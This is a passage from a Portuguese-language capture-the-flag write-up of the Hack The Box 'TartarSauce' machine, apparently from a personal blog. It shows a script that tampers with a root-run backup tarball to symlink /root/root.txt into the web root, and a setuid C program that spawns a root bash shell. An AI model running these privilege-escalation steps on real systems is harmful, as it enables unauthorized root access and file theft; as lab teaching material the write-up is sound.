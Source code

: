 ```
# vai copiar o arquivo mudado
echo "Já que foi alterado, vamos copiar"
cp $cur .

# vai pegar o nome do arquivo
fn=$(echo $cur | cut -d'/' -f4)

# extrair ele
tar -zxf $fn

# remover robots.txt e trocar por um link para root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# apagar o arquivo velho
rm $fn

# criar um arquivo novo
tar czf $fn var

# colocar ele de novo como se fosse o backup e apagar
mv $fn $cur
rm $fn
rm -rf var

# agora é esperar
echo "Esperando pela flag..."
tail -f /var/backups/onuma_backup_error.txt
```

Executando na máquina... temos a flag

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_flag.png)

Bacana, consigo ler a flag de root. Mas o que eu quero mesmo é um shell de root

### Pegando shell de root

A exploração se baseia no fato do TAR quando extrai algum arquivo, ele mantém as permissões do arquivo do usuário que a executou, então se criarmos um arquivo com setuid, quando ele extrair vai manter essa setuid habilitada, mas vai passar pra root pq quem extraiu foi o root... fez sentido? Bom acho que explicando vai fazer mais

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_s.png)

Criamos um arquivo com setuid habilitado

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main ( int argc, char *argv[] )
{
        setreuid(0,0);
        execve("/bin/bash",NULL,NULL);
}
```
